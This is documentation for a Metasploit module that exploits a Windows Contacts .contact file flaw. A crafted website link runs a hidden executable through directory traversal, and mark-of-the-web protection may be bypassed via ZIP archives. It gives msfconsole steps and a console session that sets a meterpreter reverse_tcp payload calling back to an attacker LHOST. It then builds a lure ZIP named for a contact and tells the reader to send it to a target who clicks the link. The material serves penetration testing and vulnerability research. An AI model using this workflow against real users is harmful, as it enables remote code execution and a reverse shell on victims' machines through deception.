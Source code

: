 ## Description

This module allows remote attackers to execute arbitrary code on vulnerable
installations of Microsoft Windows.  User interaction is required to exploit
this vulnerability in that the target must visit a malicious page or open a
malicious file.  The flaw is due to the processing of ".contact" files <c:Url>
node param which takes an expected website value, however if an attacker
references an executable file it will run that instead without warning instead
of performing expected web navigation.  This is dangerous and would be
unexpected to an end user.

Executable files can live in a sub-directory so when the ".contact" website link
is clicked it traverses directories towards the executable and runs.  Making
matters worse is if the files are compressed then downloaded "mark of the
web" (MOTW) may potentially not work as expected with certain archive utilitys.
The "." chars allow directory traversal to occur in order to run the attackers
supplied executable sitting unseen in the attackers directory.  This advisory is
a duplicate issue that currently affects Windows .VCF files, and released for
the sake of completeness as it affects Windows .contact files as well.

## Vulnerable Application

Windows Contacts
(tested on Windows 10.0.18282)

## Verification Steps

1. `./msfconsole`
2. `use exploit/windows/fileformat/microsoft_windows_contact`
3. Configure the payload.  For example: `set PAYLOAD windows/x64/meterpreter/bind_tcp`
4. Configure the payload parameters.  For example: `set LHOST 192.168.1.1`
5. Enter the name of the user to be embedded in the contact, which will also be used as the filename for the .ZIP and .CONTACTS files.  For example, `set FILENAME John Smith`
6. Enter the fake URL that the user must click to launch the payload.  Note, this does not need to be a valid domain.  For example: `set WEBSITE metasploit.com`
7. `run`
8. Confirm the ZIP file was created, and that it contains a `.CONTACT` file along with a payload in the `http` folder.

## Scenarios

### Exploiting a Windows 10 host

1. Configure the module-specific settings.

```
msf5 exploit(windows/fileformat/microsoft_windows_contact) > set WEBSITE metasploit.com
WEBSITE => metasploit.com
msf5 exploit(windows/fileformat/microsoft_windows_contact) > set FILENAME John Smith
FILENAME => John Smith
```

2. Configure the payload.
```
msf5 exploit(windows/fileformat/microsoft_windows_contact) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/fileformat/microsoft_windows_contact) > set LHOST 192.168.1.148
LHOST => 192.168.1.148
msf5 exploit(windows/fileformat/microsoft_windows_contact) > run

[+] Creating 'John Smith.zip'
```

3. Send the ZIP to the target machine.

4. On the target machine, extract the ZIP file, open the .CONTACT file in the Windows Contacts viewer, and click the URL in the "Website" field.
